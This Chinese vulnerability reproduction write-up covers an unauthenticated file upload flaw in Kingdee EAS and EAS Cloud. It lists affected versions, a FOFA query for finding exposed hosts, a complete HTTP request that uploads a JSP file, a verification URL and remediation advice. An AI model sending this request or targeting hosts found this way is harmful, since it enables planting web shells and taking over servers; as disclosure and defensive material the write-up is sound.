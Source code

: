 
# 金蝶 EAS及EAS Cloud任意文件上传漏洞复现

### 0x01 产品简介

    金蝶EAS Cloud为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力。

### 0x02 漏洞概述

   金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 接口处存在文件上传漏洞，未经身份认证的攻击者可以利用文件上传漏洞执行恶意代码、写入后门、从而可能导致服务器受到攻击并被控制。

### 0x03 影响范围

EAS 8.0、EAS 8.1、EAS 8.2、EAS 8.5、EAS Cloud 8.6私有云、EAS Cloud 8.6公有云

EAS Cloud 8.6SP1、EAS Cloud 8.8

### 0x04 复现环境

FOFA：app="Kingdee-EAS"

![b5c0afcedce740e6b964d38f72bc200b.png](assets/1700528547-4c793c56658b2fa621606d20ab3f0e55.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: your-ip
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ab
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

ac
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

ad
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: image/png

<%out.print("test");%>
--04844569c7ca7d21a3ca115dca477d62--
```

![5735d034471e4978bc5f79d9ebe08284.png](assets/1700528547-51dd596eee57610890b15c7f57e436a3.png)PS：响应体会回显上传后的文件名

验证url

```cobol
http://your-ip/portal/res/file/upload/回显的文件名.jsp
```

![c7c9e1b16e2a4ddfb6a0926622dfe8b3.png](assets/1700528547-61916312bc23c4ffe598ec070465ccca.png)

 命令执行

![15eb9cab24304bfe9b6883fbf120807c.png](assets/1700528547-9e7a20118e0a7076293ea218322bf4f2.png)

### 0x06 修复建议 

关闭互联网暴露面或接口设置访问控制权限

严格限制和校验上传的文件、限制上传的文件路径

文件上传后不回显上传文件名
